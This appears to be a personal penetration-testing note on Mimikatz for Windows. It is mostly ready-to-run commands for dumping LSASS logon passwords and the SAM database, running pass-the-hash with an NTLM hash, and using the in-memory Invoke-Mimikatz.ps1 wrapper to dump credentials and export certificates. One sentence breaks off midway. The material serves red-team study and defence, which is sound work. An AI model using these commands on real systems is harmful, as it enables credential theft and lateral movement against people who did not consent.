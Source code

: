 
This note does not cover the basics of Windows authentication.  For an overview of local Windows authentication, reference my [Windows Authentication](../Windows%20Authentication.md) note.
## Overview
---
**Mimikatz.exe** is a versatile utility for Windows that can extract and manipulate authentication data, including passwords and cryptographic tokens, from the Windows operating system

> [!info]
> The Mimikatz usage wiki can be found [here](https://github.com/gentilkiwi/mimikatz/wiki).

- The primary method of usage is via the binary.
- An alternative method of usage is via `Invoke-Mimikatz.ps1`

## Usage via ``mimikatz.exe``
---
**Repo Link:** https://github.com/gentilkiwi/mimikatz

- ``mimikatz.exe`` is an incredibly robust and vast tool, so all use cases will not be documented here.
- This covers common use-cases; make sure to reference the tool's wiki for more information.

```powershell
#  Acquire "debug" process privileges if running as an administrator instead of SYSTEM 
./mimikatz.exe "privilege::debug"

# Dump LSASS (non-interactive)
./mimikatz.exe "sekurlsa::logonpasswords exit"

# Dump the SAM database (requires: SYSTEM)
./mimikatz.exe "lsadump::sam exit"

# Pass-The-Hash using user's NTLM hash (default: /run:cmd)
./mimikatz.exe "sekurlsa::pth /user:<username> /domain:workgroup /ntlm:<hash> exit"
```


## Usage via ``Invoke-Mimikatz.ps1``
---
**Repo Link:** https://github.com/g4uss47/Invoke-Mimikatz

- ``Invoke-Mimikatz.ps1`` is a PowerShell wrapper for Mimikatz that allows it to be loaded into memory and executed entirely from a PowerShell script.
- The script contains base64 strings of both 

```powershell
# Executes: "sekurlsa::logonpasswords exit"
Invoke-Mimikatz -DumpCreds

# Executes: "crypto::cng crypto::capi `"crypto::certificates /export`" `"crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE`" exit"
Invoke-Mimikatz -DumpCerts

# Dump the SAM database (requires: SYSTEM)
Invoke-Mimikatz -Command "lsadump::sam"

# Commands with spaces require commenting wrapping quotations
Invoke-Mimikatz -Command "`"lsadump::sam /sam:<hive_path>.hiv`""
```